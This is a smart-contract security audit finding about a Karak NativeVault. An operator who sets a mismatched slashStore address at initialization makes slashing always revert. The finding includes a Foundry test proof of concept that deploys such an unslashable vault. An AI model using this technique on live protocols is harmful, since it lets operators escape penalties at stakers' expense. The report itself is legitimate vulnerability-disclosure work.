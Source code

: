 ## [H] The operator can create a `NativeVault` that can be silently unslashable

An operator can create a `NativeVault` which always reverts when `slashAssets()` is called and make the vault unslashable.

### Proof of Concept

When an operator want to create a `NativeVault`, he call the `deployVaults()` function on the `Core` contract with a custom config struct to give informations for the deployment. The `extraData` params is used to give the `manager`, `slahsStore` and `nodeImplementation` addresses on the `initialize()` function of the `NativeVault`.

When an asset is allowed on the protocol, a `slashingHandler` address is associated with the asset address on the `assetSlashingHandlers` mapping.

`NativeVault` is used to make native restaking with the ETH of Beacon Chain validators of users. When a slashing is executed, the address of `assetSlashingHandlers` mapping is inserted as a params in [the call](relative_path_091409:src/entities/SlasherLib.sol#L134-L138) `slashAssets()` :

```solidity
    for (uint256 i = 0; i < queuedSlashing.vaults.length; i++) {
        IKarakBaseVault(queuedSlashing.vaults[i]).slashAssets(
            queuedSlashing.earmarkedStakes[i],
            self.assetSlashingHandlers[IKarakBaseVault(queuedSlashing.vaults[i]).asset()]
        );
    }
```

Then the function make this [verification](relative_path_091409:src/NativeVault.sol#L308) with the input address of `slashingHandler`:

```solidity
    if (slashingHandler != self.slashStore) revert NotSlashStore();
```

If the operator, during the initialization, insert a `slashStore` address which is different from the `assetSlashingHandlers` address for ETH, the call on the `NativeVault` will always revert and make the vault slash impossible.

**Proof of Concept**

You can add this PoC to the `./test/nativeRestaking/nativeVault.t.sol`:

```solidity

    function test_createUnslashableVault() public {
        //Setup
        vm.warp(1718549030);
        NativeVault unslashableVault;
        address badSlashStore = address(666);
        DSSContract dss = new DSSContract();

        vm.startPrank(address(dss));
        core.registerDSS(100000000000000000000);
        vm.stopPrank();       
        // Setup NativeNode implementation
        address nativeNodeImpl = address(new NativeNode());

        // Deploy Vaults
        VaultLib.Config[] memory vaultConfigs = new VaultLib.Config[](1);
        vaultConfigs[0] = VaultLib.Config({
            asset: Constants.DEAD_BEEF,
            decimals: 18,
            operator: operator,
            name: "NativeTestVault",
            symbol: "NTV",
            extraData: abi.encode(address(manager), badSlashStore, address(nativeNodeImpl))
        });

        vm.startPrank(operator);
        IDSS dssInterface = IDSS(address(dss));
        core.registerOperatorToDSS(dssInterface, bytes(""));
        IKarakBaseVault[] memory vaults = core.deployVaults(vaultConfigs, address(0));
        unslashableVault = NativeVault(address(vaults[0]));
        
        //Register vault staked for dss
        Operator.StakeUpdateRequest memory stakeRequest = Operator.StakeUpdateRequest({
            vault: address(unslashableVault),
            dss: dssInterface,
            toStake: true
        });
        Operator.QueuedStakeUpdate memory queuedStake = core.requestUpdateVaultStakeInDSS(stakeRequest);
        vm.warp(1718549030 + 10 days);
        core.finalizeUpdateVaultStakeInDSS(queuedStake);
        vm.stopPrank();
        
        vm.startPrank(address(dss));
        //Slash request 
        uint96[] memory slashPercentagesWad = new uint96[](1);
        slashPercentagesWad[0] = 10000000000000000000;
        address[] memory operatorVaults = new address[](1);
        operatorVaults[0] = address(unslashableVault);
        
        SlasherLib.SlashRequest memory slashingReq = SlasherLib.SlashRequest({
            operator: operator,
            slashPercentagesWad: slashPercentagesWad,
            vaults: operatorVaults
        });

        //Request and execute the slashing but revert
        SlasherLib.QueuedSlashing memory queuedSlashing = core.requestSlashing(slashingReq);
        vm.warp(1718549030 + 14 days);
        core.finalizeSlashing(queuedSlashing);
        
        vm.stopPrank();
    }
```

Add also this contract for the dss on the same file :

```solidity
    contract DSSContract {
        uint256 variable;
        constructor() {
            variable = 1;
        }
        function returnVariable() external view returns(uint256 _variable) {
            _variable = variable;
        }
    }
```

And execute the command: `forge test --mt test_createUnslashableVault -vvvvv`.



